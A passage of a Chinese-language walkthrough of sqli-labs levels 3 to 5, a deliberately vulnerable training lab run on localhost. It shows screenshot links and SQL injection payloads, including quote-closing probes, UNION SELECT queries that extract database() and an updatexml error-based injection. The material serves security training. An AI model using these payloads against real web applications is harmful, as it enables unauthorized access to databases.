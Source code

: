 ![image-20220921004921480](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921004921480.png)

尝试`')and 1=2%23`

![image-20220921004951577](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921004951577.png)

尝试`') union select 1,database(),3 limit 1,2 --+`

```
http://127.0.0.1:8080/sqli-labs/Less-3/?id=1') union select 1,database(),3 limit 1,2 --+
```

![image-20220921005228961](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921005228961.png)

## 第四关

尝试`'`、`')`、`")`，`")`触发报错信息

![image-20220921005620862](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921005620862.png)

尝试`")and 1=2--+`，无显示，说明有注入漏洞

![image-20220921005720654](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921005720654.png)

使用`") union select 1,database(),3 limit 1,2--+`进行注入

```
http://127.0.0.1:8080/sqli-labs/Less-4/?id=1") union select 1,database(),3 limit 1,2--+
```

![image-20220921005902878](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921005902878.png)

## 第五关

尝试使用`'`，`"`获取报错信息

```
http://127.0.0.1:8080/sqli-labs/Less-5?id=1')
```

![image-20220921010804038](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921010804038.png)

发现三个单引号，尝试使用`'and 1=2--+`，发现注入漏洞

![image-20220921010847230](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921010847230.png)

开始注入

```
http://127.0.0.1:8080/sqli-labs/Less-5?id=1' and updatexml(1,concat(0x7e,database(),0x7e),1)--+
```

![image-20220921011044408](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921011044408.png)

## 第六关
